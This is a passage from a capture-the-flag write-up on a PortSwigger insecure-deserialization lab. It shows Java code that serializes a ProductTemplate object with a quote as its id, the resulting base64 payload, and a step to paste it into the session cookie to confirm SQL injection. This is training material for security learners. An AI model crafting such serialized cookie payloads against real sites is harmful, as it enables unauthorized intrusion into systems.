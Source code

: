**In here, since the `ProductTemplate.java` is parsing the `id` attribute (it's under our control) to the SQL query, we can try to test SQL injection!**

First, we need to confirm it's vulnerable to SQL injection.

**We can do that by triggering an error:**
```java
ProductTemplate originalObject = new ProductTemplate("'");
```

```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:25:16
╰─○ javac Main.java 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:28:55
╰─○ java Main
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAASc=
Deserialized id: '
```

**Copy that base64 encoded string, paste it to the session cookie, and refresh the page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-8/images/Pasted%20image%2020230112183039.png)